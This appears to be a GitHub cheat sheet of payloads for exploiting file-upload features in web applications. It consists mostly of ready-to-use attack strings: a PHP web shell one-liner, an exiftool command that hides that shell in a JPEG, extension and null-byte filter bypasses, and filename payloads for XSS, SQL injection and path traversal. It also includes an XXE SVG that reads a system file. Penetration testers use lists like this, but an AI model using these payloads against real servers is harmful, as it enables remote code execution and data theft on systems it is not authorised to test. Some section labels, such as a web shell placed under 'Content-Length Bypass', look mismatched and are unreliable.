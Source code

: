### Vulnerabilities via Arbitrary File Upload


### Bypasses
#### MIME Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

#### Magic Number Validation Bypass
##### Use Exiftool and instert malicious code
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['c']);?>' image.jpg
mv image.jpg image.php.jpg
```
#### Extension Bypass

| Type        | Extension       |
| ------------- |---------------|
| **php**      | phtml, .php, .php3, .php4, .php5, and .inc |
| **asp**      | asp, .aspx      |
| **perl** | .pl, .pm, .cgi, .lib      |
| **jsp**      | .jsp, .jspx, .jsw, .jsv, and .jspf      |
| **Coldfusion**      | .cfm, .cfml, .cfc, .dbm      |

#### Other Techniques(Extension Bypass)
```
file.shtml
file.asa
file.cert
```

##### Captal Letters of Extensions
```
file.PhP
file.AspX
```

#### Using Special Trailing Such as Spaces, Dots or Null Characters
```
file.asp...
file.php;jpg
file.php%00.png
file.php\x00.png
file.jpg%00.php
```

#### In IIS6 vulnerability, if the file name is ```file.asp;file.jpg```, the file will be executed as ```file.asp```.
#### In NginX, if the original file name is ```test.jpg```, testers/hackers may change it to ```test.jpg/x.php```, the file will be executed as ```x.php```.

### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### XXE
##### Filename: xxe.svg
##### Content-Type: image/svg+xml
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### SSRF
```
Change 'type=file' to 'type=url'
```
#### DoS Attack via Long File Name
```
# This one is a sample
# File name can be larger than this
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb.jpeg
```

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension
